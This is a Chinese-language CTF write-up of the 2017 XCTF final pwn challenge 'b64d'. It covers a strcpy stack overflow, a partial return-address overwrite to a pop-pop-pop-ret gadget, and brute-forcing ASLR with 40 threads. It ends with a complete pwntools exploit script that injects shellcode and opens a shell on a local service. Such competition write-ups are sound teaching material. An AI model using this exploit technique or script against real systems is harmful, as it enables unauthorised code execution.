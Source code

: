 ```yaml
---
layout:     post
title:      "2017XCTF决赛题 -- b64d"
subtitle:   "从一道看似普通的栈溢出开始的探索"
date:       2017-10-01 22:46:25
author:     "Carter"
header-img: "img/post-bg-rwd.jpg"
tags:
    - Fuzz
    - pwn
---
```


### 写在前面
	前段时间有幸代表战队参加了2017年XCTF总决赛，和国内国外的大佬们有了现场过招的机会。该次决赛赛制也很有意思，不再采用两天都是攻防赛的形式，我是引入了目前IT圈内的大明星 -- 人工智能。总决赛总共两天，第一天是各个战队使用自己开发的AI工具，对主办方放出的题目进行自动化的fuzz，只有当fuzz出该题目的崩溃后，人类选手才能得到该题的二进制程序文件，进行分析和利用的开发；第二天则是过去的老套路，放出了4道pwn题（此次没有web题，心疼web选手），进行现场的攻防竞赛。

	此篇博文，不是挑选比赛中最难的题目进行说明，而是拿一道我觉得最有意思的题目，依此作为研究的起点，进行一些探索。这道题是我们的AI工具在第一天比赛开始后几分钟就fuzz出崩溃的一道题，名称叫做b64d，很明显的一个栈溢出漏洞，本来以为会轻松利用，结果后续研究过程却很有意思。下面由我细细道来。

###  一. 漏洞分析

   漏洞存在于main函数内，允许读入2048个base64编码后的字符串，将解码后的字符串v5通过strcpy函数复制到栈上，导致了栈溢出。
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/1.png)

​      程序是amd64结构，保护措施只开了堆栈地址随机化
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/2.png)

### 二. 难点探寻

​     这个简单的栈溢出题目为什么有趣呢？原因在于当我们覆盖其返回地址为shellcode地址时，strcpy遇到'\x00'发生了截断，因此不能够完全覆盖返回地址到bss段存放shellcode的地址。其返回地址覆盖前是一个so库中的地址，因此一旦修改错误程序就会跳到未知的地方，从而崩溃。
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/3.png)

​      因此，我们只能在原本的一个so库地址上进行小范围修改。而so库的基址每次都是随机的，我们把返回地址覆盖到哪里？这是亟待解决的问题

### 三. 解决方法

>3.1 探索

1. 我们从上图中可以看到，在栈顶往下4个地址处，有一个main函数开始的地址。试想：如果我们把返回地址修改成这个地址，再让main函数再运行一次，到ret时的返回地址会不会发生变化呢？（抱着''死马当作活马医的心态"试试看）  
  于是在gdb中手动修改了ret为main函数开始的地址，再一次回到ret处。此时可喜的看到，ret地址已经是0x0了，此时我们就可以随意覆盖返回地址到任意地方了
  ![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/4.png)

2. 那么该如何完成第一步我们的假设？很容易想到在第一次到达ret时，需要将程序的控制流返回到“pop pop pop ret”上，执行完这串gadget后，程序就刚好可以返回到栈顶往下第4个地址 – main函数起始处。

3. 要在so库中，找到一个'pppr'地址并不难，需要我们斟酌的是：

 - 选取哪个so库中哪个'pppr'序列？

 - 栈溢出时，覆盖ret本来的地址时，覆盖几个字节？

 - 并且同时需要考虑到：strcpy在拷贝时，会在末尾自动添加一个字节的'\x00'  ​

>3.2 落实

1. 先来通过实践，看看在开启地址随机化的情况下，so库的地址范围有什么变化：
  0x00007f739fea0000 --  0x00007f73a0060000  
  0x00007f938edf9000 --  0x00007f938efb9000  
  可以看出，每一次so库的基址，后面6个字节都是随机的；在同一次运行过程中，不考虑有进位的情况下，so库地址后3个字节是变化的，前面的字节是相同的。这将作为我们研究的理论基础。

2. 在第一次覆盖ret时，此时该地址中存放的是  __libc_start_main+240 这一个地址，在我本机的so库计算偏移为：0x20830.  设想一下以下情况的合理性：在0x20830附近（因为要防止差得太多会导致进位的问题，因此在附近找最保险）寻找gadget，我们通过ROPgadget找到了一个0x202e3的gadget满足我的条件，我将ret地址的后两个字节通过栈溢出覆盖为‘\x02\xe3’，由于strcpy的原因，因此原来的ret地址会被覆盖为‘0x00007fxxxxxx0002e3’  

	接着我们逆向思考，当so库的基址是满足什么条件时，其0x202e3偏移的地址会满足‘0x00007fxxxxxx0002e3’。不难得出结论，即：so库基址的后6位是0xfe0000。从第4步的实验中可以轻松得到，此种概率为 1/4096

3. 如果第5步成功的命中，那么接下来就好办了：再一次运行main函数，利用栈溢出覆盖ret为bss段存放shellcode的地址即可。

### 四. 增加爆破效率
   由于命中的概率为 1/4096，是一个很小的概率，因此如何增加爆破效率是我们要解决的问题。在此我做了以下两点工作：

 - 同时开启了40个线程，用并发加快命中概率
 - 每次运行时，先读取 '/proc/pid/maps' 文件，检查so库加载基址是否为 0xfe0000，如果不是则退出，缩短了单个程序运行时间
     ![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/5.png)
        最终跑出来的时间还是和人品有关系，但在40个线程的情况下，最多用时10分钟也都能跑出来了。

### 五. 利用代码
```python
from pwn import *
import base64
import time
import datetime
import threading

flag=0

def monitor(pid):
	f = open('/proc/{}/maps'.format(pid))
	data = f.read().split('\n')
	f.close()
	for item in data:
		if '/lib/x86_64-linux-gnu/libc-2.23.so' in item:
			print item[0:item.find('-')]
			if item[6:12]=='fe0000':
				return True
			return False

def pwn():
	global flag
	#context.log_level = 'debug'
	while 1:
		if flag:
			exit(0)

		io = remote('127.0.0.1',2333)
		try:
			pid = pidof('b64d')[0]
			print 'pid = {}'.format(pid)
			if monitor(pid):
				print 'Find it'
				flag = 1
				#gdb.attach(pid,open('debug'))

			padding = 'A'*56
			shellcode = asm(shellcraft.amd64.linux.sh(),arch='amd64')


			payload1 = padding + '\xe3\x02'
			payload1 = base64.b64encode(payload1)
			io.sendline(payload1)
			io.recv(1024)

			#time.sleep(1)

			shellcode_addr = 0x602119
			payload2 =  base64.b64encode('a'*56 + p64(shellcode_addr)) + '\x00' + shellcode
			io.sendline(payload2)
			io.recv(1024)
	
			io.interactive()
			# 	break
		except KeyboardInterrupt:
			io.close()
			break
		except:
			io.close()
			pass
		

if __name__=='__main__':
	thread = []
	starttime = datetime.datetime.now()


	for i in range(40):
		t = threading.Thread(target=pwn,args=())
		thread.append(t)
		t.start()

	for i in thread:
		i.join()

	endtime = datetime.datetime.now()
	print (endtime - starttime).seconds
```